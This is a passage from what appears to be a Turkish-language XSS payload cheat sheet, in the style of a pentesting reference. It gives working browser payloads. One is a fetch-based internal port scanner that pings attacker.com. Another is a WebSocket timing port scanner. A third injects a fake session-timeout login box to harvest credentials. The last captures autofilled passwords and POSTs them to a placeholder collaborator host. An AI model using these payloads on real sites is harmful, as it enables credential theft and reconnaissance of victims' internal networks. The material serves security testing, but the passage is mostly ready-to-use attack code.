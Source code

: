 ```html
controller.abort()
if (q.length) {
q.shift()()
}
}, wait)
}
</script>
```
### Port Scanner (fetch)
```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```
### Port Scanner (websockets)
```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
s.start = performance.now();
s.port = ports[i];
s.onerror = function() {
console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
};
s.onopen = function() {
console.log("Port " + this.port+ ": " + (performance.now() -this.start) + " ms");
};
}
```
_Kısa süreler yanıt veren bir portu gösterir_ _Uzun süreler yanıt yok demektir._

Chrome'da yasaklanan portların listesini [**buradan**](https://src.chromium.org/viewvc/chrome/trunk/src/net/base/net_util.cc) ve Firefox'ta [**buradan**](https://www-archive.mozilla.org/projects/netlib/portbanning#portlist) gözden geçirin.

### Kimlik bilgilerini istemek için kutu
```markup
<style>::placeholder { color:white; }</style><script>document.write("<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'><form action='https://example.com/'><p>Your sesion has timed out, please login again:</p><input style='width:100%;' type='text' placeholder='Username' /><input style='width: 100%' type='password' placeholder='Password'/><input type='submit' value='Login'></form><p><i>This login box is presented using XSS as a proof-of-concept</i></p></div>")</script>
```
### Otomatik doldurma şifreleri yakalama
```javascript
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
Herhangi bir veri şifre alanına girildiğinde, kullanıcı adı ve şifre saldırganın sunucusuna gönderilir; istemci kaydedilmiş bir şifre seçse ve hiçbir şey yazmasa bile kimlik bilgileri dışarı sızdırılacaktır.
